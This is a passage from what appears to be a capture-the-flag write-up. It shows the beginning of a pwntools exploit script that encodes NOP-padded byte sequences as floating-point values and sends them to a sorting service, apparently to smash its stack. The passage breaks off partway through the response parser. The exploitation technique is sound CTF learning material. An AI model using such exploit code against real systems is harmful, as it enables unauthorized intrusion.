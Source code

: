 ## Files

The attack script could have been written with more emphasis on readability,  
but during a CTF this is often times not possible.

### exp.py

```python  
from pwn import *  
import struct  
import binascii

context.terminal = ["gnome-terminal", "--", "bash", "-c"]

#context.log_level = 'info'

count = 64

def float_bytes(bs, idx):  
   assert 1 <= idx <= 0xffe  
   return bs.ljust(6, b"\x90") + (idx << 4).to_bytes(2, 'little')

def float_unpack(bs):  
   return struct.unpack("d", bs)[0]

def float_pack(bs):  
   return struct.pack("d", bs)

def float_fmt(fl):  
   return "{:.90e}".format(fl)

def quick_fmt(bs, idx):  
   print("formatting: {}".format(bs))  
   return float_fmt(float_unpack(float_bytes(bs, idx)))

def send_arr_size(r, size):  
   r.readuntil('How long: ')  
   r.sendline(size)

def send_item(r, it, state):  
   print("sending item {}: {}".format(state["count"], it))  
   state["count"] += 1  
   r.readuntil('Give me: ')  
   r.sendline(it)  
   r.readline()

def send_rest(r, it, state):  
   while state["count"] < 64:  
       send_item(r, it, state)

def parse_response(r):  
   sorted = False  
   orig = {}  
   after = {}  
   try:  
       while True:  
           line = r.readline()  
           print("line is "+str(line))  
           if line == b"Sorted Array:\n":  
               sorted = True  
               continue  
           sp = line.split(b":")  
           if sp[0] == b"*** stack smashing detected ***":  
```